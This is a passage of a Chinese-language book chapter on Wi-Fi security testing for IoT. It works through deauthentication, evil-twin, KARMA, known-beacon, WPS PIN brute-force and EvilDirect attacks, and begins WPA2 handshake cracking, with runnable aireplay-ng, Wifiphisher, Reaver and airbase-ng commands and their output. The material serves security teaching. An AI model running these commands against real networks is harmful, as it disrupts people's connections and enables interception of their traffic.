








# 12

中程无线电：破解 Wi-Fi


中程无线电技术可以连接设备，覆盖范围可达 100 米（大约 328 英尺）。在本章中，我们重点介绍 Wi-Fi，这是物联网设备中最流行的技术。

我们将解释 Wi-Fi 的工作原理，并描述一些针对 Wi-Fi 的最重要攻击。通过使用各种工具，我们执行去关联和关联攻击。我们还会滥用 Wi-Fi Direct，并介绍一些破解 WPA2 加密的常见方法。

## Wi-Fi 的工作原理

其他中程无线电技术，如 Thread、Zigbee 和 Z-Wave，设计用于低速率应用，最大速度为 250Kbps，但 Wi-Fi 是为高速数据传输而创建的。与其他技术相比，Wi-Fi 的功耗也更高。

Wi-Fi 连接涉及一个*接入点（AP）*，这是允许 Wi-Fi 设备连接到网络的网络设备，以及可以连接到 AP 的客户端。当客户端成功连接到 AP 并且数据在它们之间自由流动时，我们说客户端与 AP*关联*。我们常用*站点（STA）*一词来指代任何能够使用 Wi-Fi 协议的设备。

Wi-Fi 网络可以在开放模式或安全模式下运行。在*开放模式*下，AP 不需要认证，任何试图连接的客户端都会被接受。在*安全模式*下，客户端连接到 AP 之前，必须进行某种形式的认证。某些网络还可以选择*隐藏*；在这种情况下，网络不会广播其 ESSID。*ESSID*是网络的名称，例如“Guest”或“Free-WiFi”。*BSSID*是网络的 MAC 地址。

Wi-Fi 连接使用*802.11*协议组进行数据共享，这是一组实现 Wi-Fi 通信的协议。802.11 频谱中有 15 种不同的协议，它们通过字母进行标记。你可能已经熟悉 802.11 a/b/g/n/ac，因为在过去的 20 年里，你可能已经使用过其中的某些或全部协议。这些协议支持不同的调制方式，并在不同的频率和物理层上工作。

在 802.11 中，数据通过三种主要的帧类型传输：数据帧、控制帧和管理帧。本章的目的是只处理管理帧。*管理帧*用于管理网络；例如，它在搜索网络、认证客户端，甚至将客户端与接入点（AP）关联时都会使用。

## Wi-Fi 安全评估的硬件

通常，Wi-Fi 安全评估包括对接入点（AP）和无线站点的攻击。在测试物联网（IoT）网络时，这两种攻击都至关重要，因为越来越多的设备不仅能够连接到 Wi-Fi 网络，还可以作为接入点（AP）提供服务。

在针对物联网设备进行无线评估时，您需要一张支持 AP 监控模式并具备数据包注入功能的无线网卡。*监控模式*让您的设备能够监控从无线网络接收到的所有流量。*数据包注入功能*允许您的网卡伪造数据包，使其看起来像是来自不同的源。为了本章的目的，我们使用了一张 Alfa Atheros AWUS036NHA 网卡。

此外，您可能还需要一个可配置的 AP 来测试各种 Wi-Fi 设置。我们使用了一个便携式 TP-Link AP，但实际上任何 AP 都可以。除非攻击是红队演习的一部分，否则 AP 的传输功率或您使用的天线类型并不重要。

## 针对无线客户端的 Wi-Fi 攻击

针对无线客户端的攻击通常利用 802.11 管理帧没有加密保护的事实，从而使数据包暴露于窃听、修改或重放。您可以通过关联攻击来完成所有这些攻击，关联攻击让攻击者成为中间人。攻击者还可以执行去认证和拒绝服务攻击，这会干扰受害者与 AP 的 Wi-Fi 连接。

### 去认证和拒绝服务攻击

802.11 中的管理帧无法阻止攻击者伪造设备的 MAC 地址。因此，攻击者可以伪造*去认证*或*断开关联帧*。这些是通常用于终止客户端与 AP 连接的管理帧。例如，当客户端连接到另一个 AP 或只是从原始网络断开时，会发送这些帧。如果伪造，攻击者可以利用这些帧中断与特定客户端的现有关联。

另外，攻击者可以通过向 AP 发送大量认证请求，来代替使客户端断开与 AP 的关联。这些请求会导致拒绝服务攻击，阻止合法客户端连接到 AP。

这两种攻击是已知的拒绝服务攻击，在*802.11w*中得到了缓解，但该标准在物联网领域尚未普及。在本节中，我们将执行一种去认证攻击，断开所有无线客户端与 AP 的连接。

如果您没有使用 Kali（其预装了 Aircrack-ng 套件），请先安装 Aircrack-ng 套件。*Aircrack-ng*包含 Wi-Fi 评估工具。确保插入支持数据包注入功能的网卡。然后使用`iwconfig`工具识别连接到您系统的无线网卡的接口名称：

```
# **apt-get install aircrack-ng**
#**iwconfig**
docker0   no wireless extensions.
lo        no wireless extensions.
1 wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off  
eth0      no wireless extensions.
```

输出显示无线接口是`wlan0` 1。

由于系统中的某些进程可能会干扰 Aircrack-ng 工具包的使用，因此请使用 Airmon-ng 工具来检查并自动终止这些进程。为此，首先使用`ifconfig`禁用无线接口：

```
# **ifconfig wlan0 down** 
# **airmon-ng check kill** 
Killing these processes:
PID Name
731 dhclient
1357 wpa_supplicant
```

现在使用 Airmon-ng 将无线网卡设置为监控模式：

```
# **airmon-ng start wlan0** 
**PHY    Interface     Driver        Chipset**
**phy0   wlan0         ath9k_htc     Qualcomm Atheros Communications AR9271 802.11n**
 **(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)** 
 **(mac80211 station mode vif disabled for [phy0]wlan0)**
```

该工具创建了一个名为`wlan0mon`的新接口，你可以使用它运行一个基本的嗅探会话，使用 Airodump-ng。以下命令识别 AP 的 BSSID（其 MAC 地址）和其传输的频道：

```
# **airodump-ng wlan0****mon**
CH 11 ][ Elapsed: 36 s ][ 2019-09-19 10:47                                                                                                                        
BSSID              PWR  Beacons    #Data, #/s   CH  MB   ENC CIPHER AUTH ESSID 

6F:20:92:11:06:10  -77       15        0    0   6  130  WPA2 CCMP   PSK  ZktT 2.4Ghz               
6B:20:9F:10:15:6E  -85       14        0    0  11  130  WPA2 CCMP   PSK  73ad 2.4Ghz               
7C:31:53:D0:A7:CF  -86       13        0    0  11  130  WPA2 CCMP   PSK  A7CF 2.4Ghz 
82:16:F9:6E:FB:56  -40       11       39    0   6   65  WPA2 CCMP   PSK  Secure Home              
E5:51:61:A1:2F:78  -90        7        0    0   1  130  WPA2 CCMP   PSK  EE-cwwnsa 
```

当前，BSSID 是`82:16:F9:6E:FB:56`，频道是`6`。我们将此数据传递给 Airodump-ng 以识别连接到 AP 的客户端：

```
# **airodump-ng wlan0mon --bssid  82:16:F9:6E:FB:56**
CH 6 |[ Elapsed: 42 s ] [ 2019-09-19 10:49
BSSID                   PWR Beacons  #Data, #/s   CH    MB  ENC  CIPHER AUTH ESSID
82:16:F9:6E:FB:56       -37      24    267    2    6    65  WPA2 CCMP   PSK  Secure Home
BSSID                   STATION           PWR   Rate     Lost     Frames   Probe
82:16:F9:6E:FB:56       50:82:D5:DE:6F:45 -28   0e- 0e    904        274 
```

根据此输出，我们识别出一个连接到 AP 的客户端。该客户端的 BSSID 是 50:82:D5:DE:6F:45（他们无线网络接口的 MAC 地址）。

现在，你可以向客户端发送多个断开连接数据包，迫使客户端失去互联网连接。为了执行此攻击，我们使用 Aireplay-ng：

```
# **aireplay-ng --deauth 0 -c 50:82:D5:DE:6F:45 -a 82:16:F9:6E:FB:56 wlan0mon**
```

`--deauth`参数指定了断开连接攻击和将要发送的断开连接数据包数量。选择`0`表示数据包将被持续发送。`-a`参数指定 AP 的 BSSID，`-c`参数指定目标设备。下一个列表显示了命令的输出：

```
11:03:55   Waiting for beacon frame (BSSID:  82:16:F9:6E:FB:56) on channel 6
11:03:56   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|64 ACKS]
11:03:56   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [66|118 ACKS]
11:03:57   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [62|121 ACKS]
11:03:58   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [64|124 ACKS]
11:03:58   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [62|110 ACKS]
11:03:59   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [64|75 ACKS]
11:03:59   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [63|64 ACKS]
11:03:00   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [21|61 ACKS]
11:03:00   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|67 ACKS]
11:03:01   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|64 ACKS]
11:03:02   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|61 ACKS]
11:03:02   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|66 ACKS]
11:03:03   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|65 ACKS]
```

输出显示发送到目标的断开连接数据包。当目标设备变得不可用时，攻击成功。检查该设备时，你会发现它不再连接任何网络。

你也可以通过其他方式对 Wi-Fi 进行拒绝服务攻击。*无线电干扰*，另一种常见方法，通过任何无线协议干扰无线通信。在这种攻击中，攻击者依赖于软件定义无线电设备或便宜的现成 Wi-Fi 加密狗，发送无线电信号，使无线频道无法供其他设备使用。我们将在第十五章展示这种攻击。

另外，你也可以执行*选择性干扰*，这是一种复杂的无线电干扰攻击版本，其中攻击者只干扰特定的高重要性数据包。

值得注意的是，对于某些芯片组，去认证攻击还可能降低 AP 和客户端之间通信所使用的加密密钥的安全性。最近，杀毒公司 ESET 的研究发现了这一漏洞，称为 Kr00k（CVE-2019-15126）。在此漏洞存在时，去认证的 Wi-Fi 芯片组在重新关联时会使用全零的加密密钥，这使得攻击者能够解密受影响设备传输的数据包。

### Wi-Fi 关联攻击

*关联攻击*使无线站点被欺骗连接到攻击者控制的 AP。如果目标站点已经连接到其他网络，攻击者通常会通过实施我们刚才解释的其中一种去认证技术来开始。一旦受害者失去连接，攻击者就可以通过滥用其网络管理器的不同功能将其引诱到恶意网络中。

在本节中，我们概述了最常见的关联攻击，并展示了已知信标攻击。

#### 邪恶双胞胎攻击

最常见的关联攻击是*邪恶双胞胎*攻击，它通过让客户端相信自己正在连接一个已知的合法 AP，欺骗客户端连接到一个假 AP。

我们可以使用具有监控和数据包注入功能的网络适配器创建一个假 AP。使用该网卡，我们将设置 AP 并配置其频道、ESSID 和 BSSID，同时确保复制合法网络使用的 ESSID 和加密类型。然后，我们会发送比合法 AP 信号更强的信号。你可以通过各种技术增强你的信号，最可靠的方法是比合法 AP 更靠近目标，或使用更强的天线。

#### KARMA 攻击

*KARMA*攻击通过利用配置为自动发现无线网络的客户端，将用户连接到不安全的网络。当配置为此方式时，客户端会发出一个直接的探测请求，询问特定的 AP，然后连接到它找到的 AP，而不进行身份验证。*探测请求*是一种管理帧，用于启动关联过程。在这种配置下，攻击者可以简单地确认客户端的任何请求并将其连接到一个恶意 AP。

要使 KARMA 攻击生效，你的目标设备必须满足三个条件。目标网络必须是开放类型的，客户端必须启用自动连接标志，并且客户端必须广播其首选网络列表。*首选网络列表*是客户端曾连接并信任的网络列表。启用自动连接标志的客户端会自动连接到 AP，只要该 AP 发送的 ESSID 已经出现在客户端的首选网络列表中。

大多数现代操作系统不会受到 KARMA 攻击的影响，因为它们不发送首选网络列表，但你有时可能会遇到旧款物联网设备或打印机中的易受攻击系统。如果设备曾经连接过开放的隐蔽网络，它肯定容易受到 KARMA 攻击。原因是，连接到开放的隐蔽网络的唯一方法是向其发送直接探测请求，在这种情况下，KARMA 攻击的所有要求都得到了满足。

#### 执行已知信标攻击

自从 KARMA 攻击被发现以来，大多数操作系统停止了直接探测 AP；取而代之的是，它们仅使用*被动侦察*，即设备监听网络中的已知 ESSID。这种行为完全消除了所有 KARMA 攻击的发生。

*已知信标攻击*通过利用许多操作系统默认启用自动连接标志的事实来绕过这一安全功能。由于 AP 通常具有非常常见的名称，攻击者通常可以猜测设备首选网络列表中开放网络的 ESSID。然后，它诱使该设备自动连接到攻击者控制的 AP。

在更复杂的攻击版本中，攻击者可以使用一个包含常见 ESSID（如 Guest、FREE Wi-Fi 等）的字典，这些 ESSID 受害者过去很可能连接过。这就像尝试通过暴力破解用户名来未经授权访问服务账户时一样：一种非常简单却有效的攻击方式。

图 12-1 演示了已知信标攻击。



图 12-1：已知信标攻击

攻击者的 AP 开始通过发射多个 *信标帧*，这是一种包含所有网络信息的管理帧。它会定期广播，以宣布网络的存在。如果受害者的设备将此网络信息保存在其首选网络列表中（因为受害者曾经连接过该网络），并且攻击者和受害者的 AP 都是开放型的，那么受害者会发出探测请求并连接到该网络。

在进行此攻击之前，我们需要设置设备。某些设备可能允许你更改 AutoConnect 标志。此设置的位置因设备而异，但通常在 Wi-Fi 设置中，如 图 12-2 所示，设置项通常为“自动重连”。确保此选项已启用。



图 12-2：带有 AutoConnect 切换按钮的 Wi-Fi 设置

接下来，设置一个开放式 AP，名称为 `my_essid`。我们使用便携式 TP-Link AP 来实现，但你可以使用任何你喜欢的设备。设置完成后，将受害设备连接到 `my_essid` 网络。然后安装 *Wifiphisher*（[`github.com/wifiphisher/wifiphisher/`](https://github.com/wifiphisher/wifiphisher/)），一个常用于网络评估的伪造 AP 框架。

安装 Wifiphisher，请使用以下命令：

```
$ **sudo apt-get install libnl-3-dev libnl-genl-3-dev libssl-dev**
$ **git clone** **https://github.com/wifiphisher/wifiphisher.git**
$ **cd** **wifiphisher** **&&** **sudo python****3** **setup.py install**
```

Wifiphisher 需要针对特定网络发起攻击，以便攻击该网络的客户端。我们创建了一个测试网络，也叫做 `my_essid`，以避免在未授权的情况下影响外部客户端：

```
# 1 **wifiphisher -nD –essid my_essid -kB**
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2019-08-19 03:35
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wfphshr-wlan0 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:yy:yy:yy
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:xx:xx:xx
[+] Sending SIGKILL to wpa_supplicant
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting OAuth Login Page template
```

我们通过添加 `–kB` 参数 1 在已知信标模式下启动 Wifiphisher。你无需提供攻击所需的词库，因为 Wifiphisher 已内置一个。该词库包含受害者过去可能连接过的常见 ESSID。运行命令后，WifiPhisher 的界面应打开，如 图 12-3 所示。



图 12-3：Wifiphisher 面板显示受害设备连接到我们的网络

Wifiphisher 的面板显示了已连接的受害设备数量。目前，我们的测试设备是唯一连接的目标设备。

查看你在本示例中所针对设备的首选网络列表。例如，图 12-4 显示了三星 Galaxy S8+ 设备的首选网络列表屏幕。注意，它保存了两个网络，第一个是 `FreeAirportWiFi`，使用了一个容易猜测的名称。



图 12-4：受害设备的首选网络列表屏幕

果然，一旦我们执行了攻击，设备应该会从当前连接的网络中断开，并连接到我们的恶意假网络（图 12-5）。



图 12-5：受害设备因已知信标攻击而连接到假网络。

从此时起，攻击者可以充当中间人，监控受害者的流量，甚至篡改它。

### Wi-Fi Direct

Wi-Fi Direct 是一种 Wi-Fi 标准，允许设备在没有无线 AP 的情况下相互连接。在传统架构中，所有设备都连接到一个 AP 以相互通信。而在 Wi-Fi Direct 中，两个设备中的一个充当 AP。我们称这个设备为*群组所有者*。为了使 Wi-Fi Direct 正常工作，只有群组所有者需要遵循 Wi-Fi Direct 标准。

你可以在打印机、电视、游戏主机、音响系统和流媒体设备等设备中找到 Wi-Fi Direct。许多支持 Wi-Fi Direct 的物联网设备也同时连接到标准 Wi-Fi 网络。例如，一台家庭打印机可能能够通过 Wi-Fi Direct 直接接收来自智能手机的照片，但它也很可能连接到本地网络。

在本节中，我们将回顾 Wi-Fi Direct 是如何工作的，它的主要操作模式是什么，以及你可以使用哪些技术来利用其安全功能。

#### Wi-Fi Direct 的工作原理

图 12-6 展示了设备如何使用 Wi-Fi Direct 建立连接。



图 12-6：Wi-Fi Direct 中设备连接的主要阶段

在设备发现阶段，设备向所有附近的设备发送广播消息，请求它们的 MAC 地址。在这个阶段，尚未有群组所有者，所以任何设备都可以发起此步骤。接下来，在服务发现阶段，设备接收 MAC 地址，并向每个设备发送单播服务请求，询问它们的服务信息。这使设备能够决定是否连接到每个设备。服务发现阶段后，两个设备会决定哪个是群组所有者，哪个是客户端。

在最后阶段，Wi-Fi Direct 依赖 Wi-Fi Protected Setup（WPS）来安全地连接设备。*WPS*是最初为让技术水平较低的家庭用户轻松添加新设备到网络中而创建的协议。WPS 有多种配置方式：推按钮配置（PBC）、PIN 输入和近场通信（NFC）。在*PBC*模式下，组主机有一个物理按钮，按下该按钮后，会广播 120 秒。在这段时间内，客户端可以使用自己的软件或硬件按钮连接到组主机。这使得一个困惑的用户可能按下受害设备（如电视）上的按钮，并将访问权限授予一个外部的潜在恶意设备（如攻击者的智能手机）。在*PIN 输入*模式下，组主机有一个特定的 PIN 码，如果客户端输入该 PIN 码，两个设备会自动连接。在*NFC*模式下，只需轻触两个设备就能将它们连接到网络。

#### 使用 Reaver 进行 PIN 暴力破解

攻击者可以暴力破解 PIN 输入配置中的代码。这种攻击类似于一次点击的钓鱼攻击，你可以在任何支持 Wi-Fi Direct PIN 输入的设备上使用它。

这种攻击利用了八位数 WPS PIN 码中的一个漏洞；由于这个问题，协议泄露了 PIN 码前四位的信息，而最后一位作为校验和，这使得暴力破解 WPS AP 变得容易。请注意，某些设备包含暴力破解保护，通常会阻止那些反复尝试攻击的 MAC 地址。在这种情况下，这种攻击的复杂性增加了，因为你必须在测试 PIN 码时旋转 MAC 地址。

目前，你很少会发现启用 WPS PIN 模式的 AP，因为现成的工具可以暴力破解它们的 PIN 码。一个这样的工具是 Reaver，它已经预装在 Kali Linux 中。在这个例子中，我们将使用 Reaver 来暴力破解 WPS PIN 码。尽管这个 AP 通过速率限制实施了暴力破解保护，但只要有足够的时间，我们应该能够恢复 PIN 码。（*速率限制*限制了 AP 在预定时间内从客户端接受的请求次数。）

```
# 1 **reaver -i wlan0mon -b 0c:80:63:c5:1a:8a -vv**
Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com> 
[+] Waiting for beacon from 0C:80:63:C5:1A:8A
[+] Switching wlan0mon to channel 11
[+] Received beacon from 0C:80:63:C5:1A:8A
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...…
...
[+] Received WSC NACK
[+] Sending WSC NACK
[!] WARNING: 2 Detected AP rate limiting, waiting 60 seconds before re-checking
 ...
[+] 3 WPS PIN: ‘23456780’
```

如你所见，Reaver 1 针对我们的测试网络并开始暴力破解其 PIN 码。接下来，我们遇到了速率限制 2，这严重延迟了我们的进展，因为 Reaver 会在进行下一次尝试前自动暂停。最后，我们成功恢复了 WPS PIN 码 3。

#### EvilDirect 劫持攻击

EvilDirect 攻击的工作原理与本章前面描述的 Evil Twin 攻击非常相似，不同之处在于它针对使用 Wi-Fi Direct 的设备。这种关联攻击发生在 PBC 连接过程中。在这个过程中，客户端发出连接到组主机的请求，并等待其接受。一个具有相同 MAC 地址和 ESSID、在同一信道上运行的攻击者组主机，可以拦截请求，并诱使受害者客户端与它建立连接。

在你尝试此攻击之前，你必须伪装成合法的群组所有者。使用 Wifiphisher 识别目标 Wi-Fi Direct 网络。提取群组所有者的频道、ESSID 和 MAC 地址，然后创建一个新的群组所有者，使用提取的数据进行配置。通过提供比原始群组所有者更强的信号，将受害者连接到你的伪造网络，如前所述。

接下来，终止所有干扰 Airmon-ng 的进程，正如我们在本章前面所做的那样：

```
# **airmon-ng check kill**
```

然后使用 iwconfig 将你的无线接口设置为监视模式：

```
1 # **iwconfig**
   eth0      no wireless extensions.
   lo        no wireless extensions.
  2 wlan0  IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off

3 # **airmon-ng start wlan0**
```

`iwconfig`命令 1 可以让你识别无线适配器的名称。我们的适配器名称是`wlan0` 2。拿到名称后，使用命令`airmon-ng start wlan0`3 将其安全地设置为监视模式。

接下来，运行 Airbase-ng，这是 Aircrack-ng 套件中的一个多功能工具，旨在攻击 Wi-Fi 客户端。作为命令行参数，提供频道（`-c`）、ESSID（`-e`）、BSSID（`-a`）和监视接口，在我们的例子中是`mon0`。我们在前一步提取了这些信息。

```
# **airbase-ng -c 6 -e DIRECT-5x-BRAVIA -a BB:BB:BB:BB:BB:BB mon0**
04:47:17  Created tap interface at0
04:47:17  Trying to set MTU on at0 to 1500
04:47:17  Access Point with BSSID BB:BB:BB:BB:BB:BB started.
04:47:37 1 Client AA:AA:AA:AA:AA:AA associated (WPA2;CCMP) to ESSID: "DIRECT-5x-BRAVIA"
```

输出表明攻击成功了 1；我们的目标客户端现在已经连接到恶意 AP。

图 12-7 证明我们的攻击成功了。我们通过伪装成原始电视的 Wi-Fi Direct 网络 DIRECT-5x-BRAVIA，将受害者的手机连接到我们伪造的 BRAVIA 电视。



图 12-7：受害设备通过 EvilDirect 攻击连接到假 AP

在一个真实的例子中，我们还需要配置一个 DHCP 服务器，将所有数据包转发到其目的地。这样一来，我们就不会中断受害者的通信，提供一个无缝的体验给受害者。

## 针对 AP 的 Wi-Fi 攻击

在 IoT 领域，IoT 设备作为 AP 并不罕见。这通常发生在设备为设置过程创建开放 AP 时（例如，亚马逊 Alexa 和谷歌 Chromecast 会这样做）。现代移动设备也可以充当 AP，将它们的 Wi-Fi 连接分享给其他用户，智能汽车也具备内建的 Wi-Fi 热点，并通过 4G LTE 连接增强信号。

攻击 AP 通常意味着破解它的加密。在本节中，我们将探讨针对 WPA 和 WPA2 的攻击，这两种协议用于保护无线计算机网络。WPA 是 WEP 的升级版，WEP 是一个非常不安全的协议，你可能在某些旧款 IoT 设备中仍会遇到。WEP 生成一个初始化向量（IV），其长度相当小——仅 24 位——这个向量是通过*RC4*生成的，RC4 是一种已经过时且不安全的加密函数。WPA2 则是 WPA 的升级版本，采用了基于高级加密标准（AES）的加密模式。

让我们讨论 WPA/WPA2 个人和企业网络，并识别针对它们的关键攻击。

### 破解 WPA/WPA2

你可以通过两种方式破解 WPA/WPA2 网络。第一种方式是针对使用预共享密钥的网络。第二种方式是针对启用了 802.11r 标准的网络中的 *对称主密钥标识符（PMKID）* 字段。在漫游过程中，客户端可以连接到属于同一网络的不同 AP，而无需重新认证。尽管 PMKID 攻击的成功率更高，但并不是所有 WPA/WPA2 网络都会受到影响，因为 PMKID 字段是可选的。预共享密钥攻击是一种暴力破解攻击，成功率较低。

#### 预共享密钥攻击

WEP、WPA 和 WPA2 都依赖于设备之间必须共享的密钥，理想情况下应通过安全通道进行共享，然后才能开始通信。在这三种协议中，AP 会使用与所有客户端相同的预共享密钥。

为了窃取这个密钥，我们需要捕获完整的四次握手。*WPA/WPA2 四次握手* 是一种通信序列，允许 AP 和无线客户端相互证明它们都知道预共享密钥，而无需通过无线电信号泄露该密钥。通过捕获四次握手，攻击者可以进行离线暴力破解并揭露密钥。

也被称为 *扩展认证协议（EAP）* 过 LAN（EAPOL）握手，WPA2 使用的四次握手（图 12-8）涉及基于预共享密钥生成多个密钥。



图 12-8：WPA2 四次握手

首先，客户端使用预共享密钥，称为对称主密钥（PMK），通过两个设备的 MAC 地址和来自双方的 nonce 生成第二个密钥，称为对称临时密钥（PTK）。这要求 AP 向客户端发送其 nonce，称为 A-nonce。（客户端已经知道自己的 MAC 地址，并且在两个设备开始通信后会收到 AP 的 MAC 地址，因此设备不需要再次发送这些信息。）

一旦客户端生成了 PTK，它会向 AP 发送两个项目：它自己的 nonce，称为 S-nonce，以及 PTK 的哈希值，称为 *消息完整性代码（MIC）*。然后，AP 自行生成 PTK 并验证它收到的 MIC。如果 MIC 是有效的，AP 会发出第三个密钥，称为 *组临时密钥（GTK）*，该密钥用于解密并向所有客户端广播流量。AP 发送 GTK 的 MIC 和 GTK 的完整值。客户端验证这些并以确认（ACK）回应。

设备将所有这些消息作为 EAPOL 帧发送，这是一种 802.1X 协议使用的帧类型。

让我们尝试破解一个 WPA2 网络。为了获取 PMK，我们需要提取 A-nonce、S-nonce、两个 MAC 地址以及 PTK 的 MIC。一旦获得这些值，我们可以进行离线暴力破解以破解密码。

在这个例子中，我们设置了一个在 WPA2 预共享密钥模式下运行的 AP，并将智能手机连接到该 AP。你可以将客户端替换为笔记本电脑、智能手机、IP 摄像头或其他设备。我们将使用 Aircrack-ng 来演示攻击。

首先，将无线接口设置为监控模式，并提取 AP 的 BSSID。有关如何执行此操作的完整说明，请参见第 289 页的《去认证和拒绝服务攻击》。在我们的例子中，我们得知 AP 的操作频道是 1，BSSID 是 `0C:0C:0C:0C:0C:0C`。

继续被动监控，这需要一些时间，因为我们必须等到有客户端连接到 AP。你可以通过向已经连接的客户端发送去认证数据包来加速这个过程。默认情况下，去认证的客户端会尝试重新连接到 AP，重新发起四次握手。

一旦客户端连接，使用 Airodump-ng`开始捕获发送到目标网络的帧：`

